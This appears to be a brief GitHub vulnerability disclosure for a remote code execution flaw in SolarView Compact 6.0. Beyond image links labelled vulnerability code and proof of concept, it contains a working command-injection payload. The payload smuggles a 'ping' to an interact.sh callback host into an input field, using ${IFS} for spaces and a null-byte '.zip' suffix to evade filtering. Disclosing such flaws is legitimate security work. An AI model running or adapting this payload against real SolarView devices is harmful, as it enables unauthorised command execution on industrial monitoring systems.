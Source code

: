 # SolarView_Compact_6.0_RCE

### Vulnerability code

![image](https://user-images.githubusercontent.com/72059221/169169647-d0fae978-4444-4b38-8d24-4f5978bdea3b.png)

### Payload

```
;ping${IFS}111.ca2qhk62vtc0000cd1zggfbma3wyyyyyb.interact.sh%00.zip
```

### POC

![image](https://user-images.githubusercontent.com/72059221/169169949-3193cfe2-3846-43e9-8a01-9fb1c756b0fa.png)

